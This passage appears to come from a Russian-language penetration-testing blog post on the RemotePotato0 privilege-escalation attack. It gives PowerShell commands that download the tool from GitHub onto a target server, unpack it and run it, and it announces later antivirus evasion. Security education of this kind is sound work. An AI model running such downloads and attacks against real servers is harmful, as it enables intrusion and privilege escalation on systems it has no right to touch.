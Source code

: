 
Механизм работы RemotePotato0 (изображение – www.sentinelone.com)
{:.quote}

Перейдем к практике.

## Сферические примеры в вакууме

Прежде чем говорить об уклонении от AV и других «улучшалках», посмотрим на атаку при отключенных средствах защиты, чтобы понимать, какого результата нам ожидать.

Я загружу свежий релиз [RemotePotato0](https://github.com/antonioCoco/RemotePotato0) и распакую его прямо на целевом сервере.

```
PS > curl https://github.com/antonioCoco/RemotePotato0/releases/download/1.2/RemotePotato0.zip -o RemotePotato0.zip
PS > Expand-Archive .\RemotePotato0.zip -DestinationPath .
PS > ls .\RemotePotato0*
PS > .\RemotePotato0.exe
```

[![Загрузка и распаковка RemotePotato0](/assets/images/remote-potato-0/remotepotato0-help.png)](/assets/images/remote-potato-0/remotepotato0-help.png)
{:.center-image}
